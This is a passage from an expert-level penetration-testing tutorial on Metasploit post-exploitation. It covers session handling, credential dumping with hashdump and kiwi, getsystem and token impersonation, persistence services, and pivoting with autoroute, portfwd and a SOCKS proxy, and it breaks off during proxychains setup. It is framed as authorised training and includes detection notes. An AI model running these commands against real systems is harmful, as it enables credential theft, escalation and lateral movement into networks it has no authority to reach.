






**Level:** Expert · **Track:** Penetration Testing · **Read time:** 255 min

This is Chapter 6 of the Exploitation notebook and the closing part of the four-part Metasploit arc. Chapter 3 took the framework apart to show its architecture, module taxonomy and the `msfconsole` workflow; Chapter 4 fired an exploit and caught a Meterpreter session; Chapter 5 built payloads on their own with `msfvenom`. Every one of those chapters ended at the same place — a shell on one machine. This chapter is about what a professional actually does *after* that shell opens: enumerate the host, loot its secrets, escalate, and — most importantly — use it as a stepping stone to the machines you could not reach from outside.

A single session is not an engagement. The value of a foothold is almost never the box itself; it is what that box can *see*. The workstation you phished sits on the same VLAN as the file server. The DMZ web host is dual-homed into the internal `10.10.0.0/16` you were told to reach. The point of post-exploitation is to convert one compromised host into a lens onto the rest of the network and then to reach through that lens with your whole toolkit. Metasploit is unusually good at this because its routing table, SOCKS proxy and post-module library are built to make one session carry traffic for everything else.

Everything in this chapter runs code on machines and pushes your attack traffic deeper into a network. All of it assumes an explicit, written, scoped engagement or hardware you own. Pivot only through hosts that are in scope, route only to networks you are authorised to reach, and read what each command does before you run it. Autorouting your framework into a client subnet you were not given is not a clever shortcut — it is unauthorised access, and the routing table does not care whether you meant well.

---

## Why This Matters

The initial exploit is the part that gets the headlines, but the pivot is the part that wins the engagement. In almost every real network the interesting targets — domain controllers, database servers, backup appliances, source-control hosts — are not exposed to the perimeter. They live on internal segments reachable only from other internal hosts. Your first shell is nearly always on the wrong machine: a public web server, a jump box, a phished laptop. Turning that first shell into access to the machines that actually matter is post-exploitation and pivoting, and it is the single skill that most separates someone who "got a shell in a CTF" from someone who can move through a corporate network.

Understanding Metasploit's post-exploitation and pivoting deeply pays off in four directions at once. **For pentesters and red teamers**, `autoroute` + `socks_proxy` + `proxychains` is the fastest way to point Nmap, `crackmapexec`, `impacket` and a browser at an internal subnet through a single session — no extra implant required. **For CTF and lab players (HackTheBox pro labs, OSCP-style multi-host networks, TryHackMe "Wreath"-type rooms)**, pivoting is the mechanic that gates the second and third flags; the exam networks are explicitly designed so that box A must be used to reach box B. **For bug-bounty hunters**, the relevance is narrower and mostly conceptual — most programs forbid pivoting outright — but understanding SSRF-to-internal-service chains benefits from knowing how internal routing works. And **for blue teams and detection engineers**, the Meterpreter routing table, the SOCKS listener, `hashdump`, `getsystem`'s named pipe and the local-exploit-suggester's fingerprinting are among the most common post-compromise behaviours you will ever have to catch; you cannot detect a pivot you do not understand.

The second half of the chapter is about scale. A real engagement is dozens of hosts and hundreds of repeated actions. Doing all of that by hand in `msfconsole` is slow and error-prone. Resource scripts, `AutoRunScript`, the `-x` one-liner and the global datastore turn a session's worth of manual typing into a repeatable, reviewable, unattended workflow — the difference between a hobbyist and an operator who can run the same clean procedure across fifty machines.

---

## Part 1: What "Post-Exploitation" Actually Means

Before touching a single command, get the mental model straight, because the word "post-exploitation" is used loosely and that looseness causes real confusion about which Metasploit component does what.

**Exploitation** is the act of getting arbitrary code to run on a target you did not previously control — a memory-corruption bug, a deserialization sink, a default credential, a file upload. It ends the moment a payload executes and calls back. Everything after that callback is **post-exploitation**: the phase where you already have code execution and are now deciding what to do with it.

Post-exploitation has a fairly stable structure regardless of the target OS. It is worth memorising as a loop, because you will run it once per host in a multi-machine engagement:



The loop is the whole game. Each new host you land on restarts it, and the "pivot" step is what feeds new hosts back into the top. Metasploit gives you a dedicated component for almost every box in that diagram:

| Post-exploitation task | Metasploit mechanism | Where it lives |
| --- | --- | --- |
| Situational awareness | Meterpreter core commands (`getuid`, `sysinfo`, `ipconfig`) | Session itself |
| Local enumeration | `post/` modules (`post/windows/gather/*`, `post/multi/gather/*`) | Module tree |
| Credential looting | `hashdump`, `load kiwi`, `post/*/gather/credentials/*`, creds store | Session + DB |
| Privilege escalation | `getsystem`, `post/multi/recon/local_exploit_suggester`, local exploit modules | Session + modules |
| Persistence | `exploit/*/local/persistence*`, `post/*/manage/*` | Module tree |
| Pivoting | `autoroute`, `route`, `portfwd`, `auxiliary/server/socks_proxy` | Session + routing table |
| Automation | resource scripts, `AutoRunScript`, `-x`, `setg` | Console |

**The single most important distinction in this chapter:** a *post module* is not an *exploit module*. An exploit module's job is to get you a session; it targets `RHOSTS` (a remote host) and its output is a session. A post module's job is to *act through a session you already have*; it targets `SESSION` (a session ID) and its output is looted data, an escalation, or a configuration change. When you see `post/` in a module path, it means "run this against a session," never "run this to get a session." Getting this wrong — trying to `set RHOSTS` on a post module, or expecting `run` on a post module to give you a new shell — is the most common beginner stumble in this phase.

---

## Part 2: Session Management — the Thing Everything Else Hangs Off

Every post module, every pivot, every automation hook is addressed by a **session ID**. If you cannot fluently list, background, foreground and interact with sessions, nothing else in this chapter works. So start here.

When an exploit or a `multi/handler` catches a callback, Metasploit prints a line like:

```
[*] Meterpreter session 1 opened (10.10.14.7:4444 -> 10.10.10.40:49207) at 2026-11-05 06:14:22 +0000
```

That `session 1` is the handle. The core commands for working with sessions from the `msfconsole` prompt (not from inside Meterpreter) are:

```
msf6 > sessions -l                 # list all live sessions
msf6 > sessions -i 1               # interact with (foreground) session 1
msf6 > sessions -k 1               # kill session 1
msf6 > sessions -K                 # kill ALL sessions
msf6 > sessions -c "getuid" -i 1   # run a single command in session 1 without foregrounding
msf6 > sessions -C "sysinfo" -i 1  # run a Meterpreter command in session 1
msf6 > sessions -u 3               # upgrade a basic shell (session 3) to Meterpreter
```

Realistic `sessions -l` output on a small engagement looks like this:

```
Active sessions
===============

  Id  Name  Type                     Information                       Connection
  --  ----  ----                     -----------                       ----------
  1         meterpreter x64/windows  DMZ\svc_web @ WEB01               10.10.14.7:4444 -> 10.10.10.40:49207 (10.10.10.40)
  2         shell cmd/unix           uid=33(www-data)                  10.10.14.7:4445 -> 10.10.10.55:52110 (10.10.10.55)
  3         meterpreter x64/windows  CORP\jsmith @ WKSTN07             10.10.14.7:4444 -> 10.10.10.40:49208 (192.168.50.23)
```

Read that table carefully — it is the map of your engagement. Column by column: **Id** is the handle you pass to `-i`; **Type** tells you whether it is full Meterpreter or a lesser command shell (the `shell cmd/unix` in session 2 is a plain shell — it cannot run Meterpreter post modules until you upgrade it with `sessions -u 2`); **Information** shows the user context and hostname; **Connection** shows the tunnel and, in parentheses, the *target's own view of its address*. That parenthesised address in session 3 — `192.168.50.23` — is a different subnet from the connection address, which is your first hint that WKSTN07 is dual-homed and therefore a pivot candidate.

From *inside* a Meterpreter session, you background it (return to the console without killing it) with:

```
meterpreter > background
[*] Backgrounding session 1...
msf6 exploit(...) >
```

or the keyboard interrupt `Ctrl+Z`. `background` is one of the most-used commands in the whole framework: you background a session to go run a post module or set up a route, then `sessions -i 1` back into it. **Never** use `Ctrl+C` / `exit` when you mean `background` — `exit` tears the session down and you lose the foothold.

**Naming sessions** keeps a big engagement legible:

```
msf6 > sessions --name web01-svc -i 1
```

Now the session shows a human-readable name instead of just a number in every listing — invaluable when you have fifteen sessions and half of them are on identically named cloud VMs.

---

## Part 3: Situational Awareness — the First Sixty Seconds on a Box

The instant a session opens, before you loot or pivot, you answer three questions: **who am I**, **where am I**, and **what can this box see**. These are answered with Meterpreter core commands, not post modules — they are fast, quiet, and tell you whether the box is even worth deeper effort.

```
meterpreter > getuid
Server username: DMZ\svc_web

meterpreter > sysinfo
Computer        : WEB01
OS              : Windows Server 2019 (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : DMZ
Logged On Users : 2
Meterpreter     : x64/windows

meterpreter > getprivs
Enabled Process Privileges
==========================
SeChangeNotifyPrivilege
SeCreateGlobalPrivilege
SeImpersonatePrivilege        <-- interesting: enables potato-style escalation
SeIncreaseWorkingSetPrivilege
```

Every line of that output is a decision input. `getuid` says you are the low-privileged service account `svc_web`, not `SYSTEM` — so escalation is on the menu. `sysinfo` says Server 2019 x64, domain-joined to `DMZ` — so this is a domain machine and domain credentials may be cached. `getprivs` shows `SeImpersonatePrivilege` is enabled, which is the specific privilege that makes the "Potato" family of local exploits (JuicyPotato, PrintSpoofer, GodPotato) work — a huge escalation lead you would miss if you skipped this step.

The other half of situational awareness is **network position**, and this is the single most important thing to check for pivoting:

```
meterpreter > ipconfig

Interface  1
============
Name         : Software Loopback Interface 1
IPv4 Address : 127.0.0.1

Interface 11
============
Name         : Intel(R) 82574L Gigabit Network Connection
IPv4 Address : 10.10.10.40
IPv4 Netmask : 255.255.255.0

Interface 14
============
Name         : Intel(R) 82574L Gigabit Network Connection #2
IPv4 Address : 172.16.20.10
IPv4 Netmask : 255.255.255.0
```

Read this and stop. **This host has two NICs.** One faces the network you came in on (`10.10.10.0/24`) and one faces a second network you have never seen (`172.16.20.0/24`). That second interface is the entire reason this box is valuable — it is a bridge into a segment your attack machine cannot route to. Note `172.16.20.0/24`; you will `autoroute` to it in Part 8. A host with two interfaces on different subnets is called **dual-homed** or **multi-homed**, and finding one is the "aha" moment of most internal engagements.

You can confirm the routing view from the target's own perspective:

```
meterpreter > route

IPv4 network routes
===================
    Subnet           Netmask          Gateway       Metric  Interface
    ------           -------          -------       ------  ---------
    0.0.0.0          0.0.0.0          10.10.10.1    0       11
    10.10.10.0       255.255.255.0    10.10.10.40   256     11
    172.16.20.0      255.255.255.0    172.16.20.10  256     14
```

This is the *target's* route table (not Metasploit's) — it confirms WEB01 can talk directly to `172.16.20.0/24` on interface 14. That is your next network.

---

## Part 4: Post Modules — Local Enumeration at Scale

Core commands answer the fast questions. For deeper, structured enumeration you use **post modules**: pre-written Ruby modules that run a whole enumeration routine through a session and store results in the database. They exist because typing thirty `shell`-level commands by hand and eyeballing the output does not scale across an engagement.

**Teaching the post module workflow from zero.** A post module is used exactly like any other module, with one difference — it targets a `SESSION`, not an `RHOSTS`:

```
msf6 > search type:post platform:windows gather

msf6 > use post/windows/gather/enum_logged_on_users
msf6 post(windows/gather/enum_logged_on_users) > show options

Module options (post/windows/gather/enum_logged_on_users):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   CURRENT    true             yes       Enumerate currently logged on users
   SESSION                     yes       The session to run this module on

msf6 post(...) > set SESSION 1
msf6 post(...) > run
```

That is the entire pattern: `use`, set `SESSION`, `run`. There is no `RHOSTS` because the module acts *through* the session's existing code execution. Two shortcuts you will use constantly: from inside a Meterpreter session you can skip the console dance with `run post/...`:

```
meterpreter > run post/windows/gather/enum_logged_on_users
```

and Meterpreter automatically supplies `SESSION` as the current session. Second, many classic post modules have short Meterpreter aliases (e.g. `hashdump`).

Here is a realistic run of the logged-on-users module:

```
[*] Running module against WEB01

Current Logged Users
====================

 SID                                            User
 ---                                            ----
 S-1-5-21-1892...-1104                          DMZ\svc_web
 S-1-5-21-1892...-500                            DMZ\Administrator

[+] Results saved to: /root/.msf4/loot/20261105061530_default_10.10.10.40_host.users.activ_884213.txt
```

Note two things. First, `DMZ\Administrator` is logged on *right now* — a high-value token you may be able to impersonate (Part 6). Second, the `[+] Results saved to:` line: post modules write their findings to the **loot directory** (`~/.msf4/loot/`) and often the database, so you build a persistent evidence trail without copy-pasting.

The post-module library is enormous. These are the ones you will actually reach for, grouped by job:

| Category | Module | What it gives you |
| --- | --- | --- |
| Host recon | `post/windows/gather/enum_system` | Patch level, hotfixes, env, installed software |
| Host recon | `post/windows/gather/checkvm` | Is this a VM? (Which hypervisor) |
| Network | `post/multi/gather/ping_sweep` | Live hosts on a reachable subnet (great pre-pivot) |
| Network | `post/windows/gather/arp_scanner` | ARP-discovered neighbours on the local segment |
| Users/AD | `post/windows/gather/enum_domain` | Domain name, DC, domain SID |
| Users/AD | `post/windows/gather/enum_ad_users` | Domain user list via LDAP |
| Software | `post/windows/gather/enum_applications` | Installed apps + versions (esc leads) |
| Software | `post/windows/gather/credentials/enum_chrome` | Browser-saved credentials |
| Esc leads | `post/multi/recon/local_exploit_suggester` | Which local privesc exploits likely work |
| Cleanup | `post/windows/manage/enable_rdp` | Turn on RDP (scope permitting) |

**`local_exploit_suggester` deserves special mention** because it is the fastest privilege-escalation triage in the framework:

```
msf6 > use post/multi/recon/local_exploit_suggester
msf6 post(...) > set SESSION 1
msf6 post(...) > run

[*] 10.10.10.40 - Collecting local exploits for x64/windows...
[*] 10.10.10.40 - 184 exploit checks are being tried...
[+] 10.10.10.40 - exploit/windows/local/cve_2021_40449_win32k_dispatch: The target appears to be vulnerable.
[+] 10.10.10.40 - exploit/windows/local/bypassuac_sdclt: The target appears to be vulnerable.
[+] 10.10.10.40 - exploit/windows/local/ms16_075_reflection: The target appears to be vulnerable.
[*] Post module execution completed
```

It runs each local exploit module's `check` method against the session and reports which ones think they will work. It is a starting point, not gospel — `check` methods can be wrong in both directions — but it turns "which of 184 privesc exploits do I try" into a three-item shortlist. **Pentester note:** always corroborate its output with manual enumeration (patch level from `enum_system`, service misconfigurations, the `getprivs` output from Part 3) before firing a local exploit that might crash the box.

---

## Part 5: Looting Credentials — hashdump, kiwi and the Creds Store

Credentials are the currency of lateral movement. A password or hash from box A is what logs you into box B, and Metasploit has a layered toolkit for extracting and storing them.

### hashdump — local SAM hashes

On Windows, local account password hashes live in the SAM database. With SYSTEM-level access, Meterpreter's built-in `hashdump` reads them:

```
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
svc_web:1104:aad3b435b51404eeaad3b435b51404ee:8846f7eaee8fb117ad06bdd830b7586c:::
```

Read the format — it is the classic `pwdump` layout: `username:RID:LM-hash:NT-hash:::`. The `aad3b435...` LM half is the "empty LM hash" constant, meaning LM storage is disabled (normal on modern Windows); the value you care about is the fourth field, the **NT hash**. That NT hash is directly usable in a **pass-the-hash** attack — you never need to crack it to authenticate as that user. `hashdump` requires SYSTEM; if `getuid` shows you are not SYSTEM, escalate first (Part 6).

### kiwi — mimikatz inside Meterpreter

`hashdump` only gets on-disk SAM hashes. To pull *plaintext* credentials, Kerberos tickets and cached domain logons from LSASS memory, load the **kiwi** extension — the Metasploit-native port of mimikatz:

```
meterpreter > load kiwi

  .#####.   mimikatz 2.2.0 20191125 via meterpreter
 .## ^ ##.  "A La Vie, A L'Amour"
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi`
 '## v ##'   Version: MSF ...
  '#####'

meterpreter > creds_all
[+] Running as SYSTEM
[*] Retrieving all credentials

msv credentials
===============
Username    Domain  NTLM                              SHA1
--------    ------  ----                              ----
svc_web     DMZ     8846f7eaee8fb117ad06bdd830b7586c  ...
jsmith      CORP    5835048ce94ad0564e29a924a03510ef  ...

wdigest credentials
===================
Username    Domain  Password
--------    ------  --------
svc_web     DMZ     Summer2026!
```

That `wdigest` block is the jackpot: a **cleartext password** (`Summer2026!`) recovered from memory. Other useful kiwi commands: `lsa_dump_sam`, `lsa_dump_secrets`, `kerberos_ticket_list`, and `golden_ticket_create` (deep AD attacks, covered in the Active Directory notebook). Kiwi requires SYSTEM and, on modern Windows, will be loudly flagged by any competent EDR — treat it as a noisy tool of last resort in a monitored environment.

### The credential store — where loot goes to be reused

Individually dumping hashes is useless if you cannot organise them. Metasploit's database has a **credential store** (`creds`) that centralises everything you recover so that other modules can consume it. Post modules like `post/windows/gather/credentials/*` write into it automatically; you can also add manually:

```
msf6 > creds
Credentials
===========

host          origin        service          public   private                           realm  private_type
----          ------        -------          ------   -------                           -----  ------------
10.10.10.40   10.10.10.40   445/tcp (smb)    svc_web  8846f7eaee8fb117ad06bdd830b7586c  DMZ    NTLM hash
10.10.10.40   10.10.10.40                     svc_web  Summer2026!                       DMZ    Password

msf6 > creds -o loot/creds.csv          # export to CSV for reporting
```

The payoff: modules such as `auxiliary/scanner/smb/smb_login` can pull straight from this store and spray recovered credentials across a subnet, turning one dumped hash into a network-wide credential test. This is the plumbing that connects "loot on box A" to "access on box B."

---

## Part 6: Privilege Escalation Inside Metasploit

A low-privileged shell can enumerate and loot a little, but `hashdump`, `kiwi` and most persistence needs SYSTEM (Windows) or root (Linux). Metasploit offers three escalation paths, in rough order of how often you reach for them.

### getsystem — the one-shot Windows escalation

If you already hold a high-integrity token (e.g. you are a local admin but not SYSTEM), `getsystem` elevates to SYSTEM using one of several built-in techniques:

```
meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

`getsystem` is not magic — it only works if the current token already has the privilege to become SYSTEM (typically because you are an administrator). Its default **technique 1** creates a named pipe, spawns a service that connects to it, and impersonates the SYSTEM token that arrives. You can select a technique explicitly:

```
meterpreter > getsystem -t 1      # Named-pipe impersonation
meterpreter > getsystem -t 3      # Token duplication
```

**Blue-team note:** technique 1's named-pipe-plus-transient-service pattern is one of the most reliably detected escalation signatures in Windows telemetry (Sysmon event 17/18 on an odd pipe name, plus a 7045 service-install). It works in the lab; it lights up an alert in a monitored network.

### Local exploit modules — when getsystem cannot help

If you are a genuinely low-privileged user (not an admin), `getsystem` fails and you need a **local exploit** — a module that abuses a kernel or service vulnerability to escalate. This is where `local_exploit_suggester` (Part 4) earns its keep. Local exploit modules live under `exploit/windows/local/` and `exploit/linux/local/`, and — crucially — they take a `SESSION` (the low-priv session to escalate) and give you a *new* higher-priv session:

```
msf6 > use exploit/windows/local/cve_2021_40449_win32k_dispatch
msf6 exploit(...) > set SESSION 1
msf6 exploit(...) > set LHOST 10.10.14.7
msf6 exploit(...) > set LPORT 5555
msf6 exploit(...) > run

[*] Started reverse TCP handler on 10.10.14.7:5555
[*] Launching notepad to host the exploit...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Meterpreter session 4 opened (10.10.14.7:5555 -> 10.10.10.40:49510)

msf6 > sessions -i 4
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

Note the shape: a local exploit is an exploit module (it makes a *new* session, needs `LHOST`/`LPORT` for the fresh callback) but it is *launched through an existing session*. That dual nature confuses people — it is both "post" (needs a session) and "exploit" (produces a session).

### Token impersonation with incognito

The third path abuses **Windows access tokens** left behind by other logged-on users. If a domain admin has a process or session on the box you control, you can steal their token and act as them without ever knowing their password:

```
meterpreter > load incognito
meterpreter > list_tokens -u

Delegation Tokens Available
========================================
CORP\Administrator
DMZ\svc_web

meterpreter > impersonate_token "CORP\\Administrator"
[+] Successfully impersonated user CORP\Administrator

meterpreter > getuid
Server username: CORP\Administrator
```

This is the technique behind a huge fraction of real domain compromises: land on a server where a privileged account has an active session, impersonate their delegation token, and inherit their rights across the domain. `SeImpersonatePrivilege` (which you spotted in `getprivs` back in Part 3) is what makes it possible.



---

## Part 7: Persistence (Lab-Scoped) and Session Durability

Persistence is keeping access across reboots and disconnects. On a real engagement it is often *out of scope* or tightly constrained (it modifies the client's systems and creates cleanup obligations), so treat this section as lab knowledge and always confirm the rules of engagement permit it before touching anything durable.

The cheaper, always-appropriate concern is **session durability** — not losing the shell you have. Two habits help:

- **Migrate out of a fragile host process.** If your Meterpreter is running inside the exploited process (say a browser or a service that may crash or be closed), move it into a stable, long-lived process:

```
meterpreter > ps            # list processes, note a stable PID e.g. explorer.exe / spoolsv.exe
meterpreter > migrate 1580
[*] Migrating from 4092 to 1580...
[*] Migration completed successfully.
```

`migrate` injects the Meterpreter DLL into the target PID and moves execution there. Migrating into a process owned by another user also silently changes your `getuid` context — a subtle way to shift identity. (Blue-team note: cross-process injection into `explorer.exe`/`spoolsv.exe` is a high-signal EDR detection — `migrate` is convenient but noisy.)

- **Keep the handler alive.** Run your `multi/handler` with `set ExitOnSession false` and `exploit -j` so it stays listening as a background job and can catch re-connections.

For genuine persistence (lab only), the framework offers modules such as:

```
msf6 > use exploit/windows/local/persistence_service
msf6 exploit(...) > set SESSION 1
msf6 exploit(...) > set LHOST 10.10.14.7
msf6 exploit(...) > run
```

which installs a service that re-launches a payload on boot, and scheduled-task / registry-run-key variants under `post/windows/manage/`. Every one of these writes an artefact to disk or registry that a blue team can find and that you are responsible for removing during cleanup — record exactly what you install so you can reverse it.

---

## Part 8: Pivoting Part 1 — autoroute and the Routing Table

This is the heart of the chapter. **Pivoting** is using a compromised host as a router so your attack traffic can reach networks you cannot otherwise touch. Recall from Part 3 that WEB01 (session 1) is dual-homed: it has an interface on `172.16.20.0/24`, a network your Kali box has no route to. Pivoting lets you reach `172.16.20.0/24` *through* WEB01.

### The mental model

Your attack machine can talk to WEB01 (that is how you got the session). WEB01 can talk to `172.16.20.0/24`. So if you can make Metasploit send its `172.16.20.x` traffic *to session 1* and have session 1 forward it out its second NIC, you have a route. That is exactly what Metasploit's routing table does — it is a table that says "traffic for subnet X goes via session N."



### autoroute — the easy way

The `autoroute` post module reads the target's interfaces and adds Metasploit routes for them automatically:

```
meterpreter > run autoroute -s 172.16.20.0/24

[*] Adding a route to 172.16.20.0/255.255.255.0...
[+] Added route to 172.16.20.0/255.255.255.0 via 10.10.10.40
[*] Use the -p option to list all active routes

meterpreter > run autoroute -p

Active Routing Table
====================

   Subnet             Netmask            Gateway
   ------             -------            -------
   172.16.20.0        255.255.255.0      Session 1
```

Read that last table: **traffic for `172.16.20.0/24` now flows via Session 1.** From this moment, any Metasploit module you point at a `172.16.20.x` address will transparently tunnel through WEB01. You did not install anything new on the target — the existing Meterpreter session carries the traffic.

You can also let autoroute add routes for *every* subnet the host knows about:

```
meterpreter > run autoroute
[*] Searching for subnets to autoroute.
[+] Route added to subnet 172.16.20.0/255.255.255.0 from host's routing table.
```

### The console `route` command — the manual way

`autoroute` is a convenience wrapper around the console's `route` command, which you can drive directly from `msfconsole` (background the session first):

```
meterpreter > background
msf6 > route add 172.16.20.0/24 1        # subnet, mask (CIDR), session id
msf6 > route print

IPv4 Active Routing Table
=========================

   Subnet             Netmask            Gateway
   ------             -------            -------
   172.16.20.0        255.255.255.0      Session 1

msf6 > route remove 172.16.20.0/24 1     # tear it down when done
msf6 > route flush                       # remove ALL routes
```

`route` and `autoroute` write to the same table; use whichever fits your flow. **Always `route flush` (or remove specific routes) during cleanup** — a stale route pointing at a torn-down session causes confusing "host unreachable" failures later, and leaving framework routes configured is sloppy.

### Using the route — scanning the internal network

Once the route exists, Metasploit modules reach the internal subnet. But note the critical limitation up front: **routes only carry traffic that goes through Metasploit's own socket layer.** Meterpreter tunnels TCP; it cannot tunnel raw packets. That means the Metasploit port scanner works, but Nmap's SYN/OS-detection does not (it needs raw sockets). Use the framework's own scanner over a pivot:

```
msf6 > use auxiliary/scanner/portscan/tcp
msf6 auxiliary(scanner/portscan/tcp) > set RHOSTS 172.16.20.50
msf6 auxiliary(scanner/portscan/tcp) > set PORTS 22,80,135,139,445,1433,3389
msf6 auxiliary(scanner/portscan/tcp) > run

[+] 172.16.20.50:      - 172.16.20.50:445 - TCP OPEN
[+] 172.16.20.50:      - 172.16.20.50:1433 - TCP OPEN
[+] 172.16.20.50:      - 172.16.20.50:3389 - TCP OPEN
[*] Scanned 1 of 1 hosts (100% complete)
```

Those results came from a host your Kali box cannot even ping — every packet went out through WEB01. Port 1433 (MSSQL) on an internal host you just discovered is exactly the kind of second-stage target pivoting exists to reach. A ping sweep to find live internal hosts before scanning ports:

```
msf6 > use post/multi/gather/ping_sweep
msf6 post(...) > set RHOSTS 172.16.20.0/24
msf6 post(...) > set SESSION 1
msf6 post(...) > run
[+] 	172.16.20.50 host found
[+] 	172.16.20.60 host found
```

---

## Part 9: Pivoting Part 2 — portfwd and SOCKS for Non-Metasploit Tools

`autoroute` is perfect *inside* Metasploit, but most of your toolkit — Nmap, `crackmapexec`, `impacket-secretsdump`, `evil-winrm`, a web browser, `xfreerdp` — is not Metasploit-aware and knows nothing about the framework's routing table. Two mechanisms bridge that gap: **port forwarding** (for a single service) and a **SOCKS proxy** (for your whole toolkit).

### portfwd — forward one port

`portfwd` maps a local port on your Kali box to a single `host:port` reachable from the session. It is surgical: one internal service, one local port.

```
meterpreter > portfwd add -l 3390 -p 3389 -r 172.16.20.50
[*] Local TCP relay created: :3390 <-> 172.16.20.50:3389

meterpreter > portfwd list
0: 3390 -> 172.16.20.50:3389
```

Now `localhost:3390` on your Kali box *is* RDP on the internal DB01. Connect with any normal RDP client — it has no idea it is being tunnelled:

```
$ xfreerdp /v:127.0.0.1:3390 /u:Administrator /p:'Summer2026!' /cert:ignore
```

The flags: `-l` local listen port, `-p` remote port, `-r` remote host, `-L` local bind address (default `127.0.0.1`). Reverse forwards (`-R`) push a local port out to the target. `portfwd delete -l 3390` removes a forward; `portfwd flush` clears all. Port forwarding is clean and low-overhead but does not scale — one forward per service gets unwieldy fast. For a whole network, use SOCKS.

### SOCKS proxy — tunnel your entire toolkit

A SOCKS proxy turns the pivot into a general-purpose gateway. You run a SOCKS server in Metasploit; it accepts connections from any SOCKS-aware client and forwards them according to the routing table. Combined with `proxychains`, *any* command-line tool becomes pivot-aware.

**Teaching proxychains from scratch:** `proxychains` (package `proxychains4` / `proxychains-ng` on Kali) is a tool that hooks a program's network calls and forces them through a proxy you define in `/etc/proxychains4.conf`. You prefix any command with `proxychains` and its TCP connections go through the chain.

Step 1 — start the SOCKS server as a background job in Metasploit (the route from Part 8 must already exist):

```
msf6 > use auxiliary/server/socks_proxy
msf6 auxiliary(server/socks_proxy) > set SRVHOST 127.0.0.1
msf6 auxiliary(server/socks_proxy) > set SRVPORT 1080
msf6 auxiliary(server/socks_proxy) > set VERSION 5
msf6 auxiliary(server/socks_proxy) > run -j
[*] Auxiliary module running as background job 0.
[*] Starting the SOCKS proxy server
```

Step 2 — point proxychains at it. Edit `/etc/proxychains4.conf` so the last line reads:

```
[ProxyList]
